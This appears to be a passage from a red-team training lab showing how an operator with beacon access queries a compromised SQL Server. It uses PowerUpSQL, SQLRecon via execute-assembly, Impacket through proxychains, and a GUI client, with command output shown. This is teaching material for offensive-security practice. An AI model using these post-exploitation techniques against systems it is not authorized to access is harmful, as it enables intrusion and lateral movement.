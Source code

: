 \
**Once we have access, there are several options for issuing queries against a SQL instance.  `Get-SQLQuery` from PowerUpSQL:**

```
beacon> powershell Get-SQLQuery -Instance "sql-2.dev.cyberbotic.io,1433" -Query "select @@servername"

Column1
-------
SQL-2
```

**SQLRecon:**

```
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:query /c:"select @@servername"

[*] Executing 'select @@servername' on sql-2.dev.cyberbotic.io,1433
column0 | 
----------
SQL-2 |
```

**`mssqlclient.py` from Impacket via proxychains:**

```
ubuntu@DESKTOP-3BSK7NO ~> proxychains mssqlclient.py -windows-auth DEV/bfarmer@10.10.122.25
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
|S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.25:1433-<><>-OK
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL-2): Line 1: Changed database context to 'master'.
[*] INFO(SQL-2): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
[!] Press help for extra shell commands

SQL> select @@servername;

--------------------------------------------------------------------------------------------------------------------------------

SQL-2
```

**Or a Windows SQL GUI, such as** [**HeidiSQL**](https://www.heidisql.com/)**via Proxifier:**

![](https://files.cdn.thinkific.com/file_uploads/584845/images/574/967/edc/heidi.png)
